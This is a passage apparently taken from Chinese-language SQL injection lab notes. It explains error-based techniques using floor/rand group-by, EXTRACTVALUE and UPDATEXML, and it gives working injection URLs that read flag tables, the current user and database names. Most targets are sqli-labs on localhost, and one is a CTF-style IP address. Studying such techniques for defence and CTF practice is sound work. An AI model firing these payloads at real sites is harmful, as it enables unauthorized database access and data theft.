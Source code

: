   ```
  
  查询字段内容：
  http://222.18.158.243:4606/?id=1 and 1=2  union select 1 from (select+count(*),concat(floor(rand(0)*2),(select flag from flag))a from information_schema.tables group by a)b
  ```

  

- ### **ExtractValue报错注入**

  ```
  EXTRACTVALUE (XML_document, XPath_string)
  ```

  - 第一个参数：XML_document 是 String 格式，为 XML 文档对象的名称

  - 第二个参数：XPath_string (Xpath 格式的字符串).

    作用：从目标 XML 中返回包含所查询值的字符串

    ps：返回结果 限制在32位字符

    ```sql
    // 可以将 user() 改成任何我们想要查询的函数和sql语句 ,0x7e表示的是 ~
    http://127.0.0.1/sqli/Less-1/?id=-1'  and extractvalue(1,concat(0x7e,user(),0x7e))#
    // 通过这条语句可以得到所有的数据库名，更多的关于informaion_schema的使用看文章头部
    http://127.0.0.1/sqli/Less-1/?id=-1'  and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e))#
    ```

    [![RY6GfH.png](https://z3.ax1x.com/2021/06/27/RY6GfH.png)](https://imgtu.com/i/RY6GfH)

- **UpdateXml报错注入**

  UpdateXml 函数实际上是去更新了XML文档，但是我们在XML文档路径的位置里面写入了子查询，我们输入特殊字符，然后就因为不符合输入规则然后报错了，但是报错的时候他其实已经执行了那个子查询代码！

  - ```
    UPDATEXML (XML_document, XPath_string, new_value)
    ```

    - 第一个参数：XML_document 是 String 格式，为 XML 文档对象的名称，文中为 Doc 1
    - 第二个参数：XPath_string (Xpath 格式的字符串) ，如果不了解 Xpath 语法，可以在网上查找教程。
    - 第三个参数：new_value，String 格式，替换查找到的符合条件的数据

      作用：改变文档中符合条件的节点的值

    ```
    // 可以将 user() 改成任何我们想要查询的函数和sql语句 ,0x7e表示的是 ~
    http://127.0.0.1/sqli/Less-1/?id=-1'  and updatexml(1,concat(0x7e,user(),0x7e),1)#
    // 通过这条语句可以得到所有的数据库名
    ?id=1 ' union select updatexml(1,concat(0x7e,(select database()),0x7e),1) --+
    ```

    [![RY6H39.png](https://z3.ax1x.com/2021/06/27/RY6H39.png)](https://imgtu.com/i/RY6H39)

#### REGEXP正则匹配

正则表达式，又称规则表达式（Regular Expression，在代码中常简写为regex、regexp或RE），计算机科学的一个概念。正则表达式通常被用来检索、替换那些符合某个模式(规则)的文本
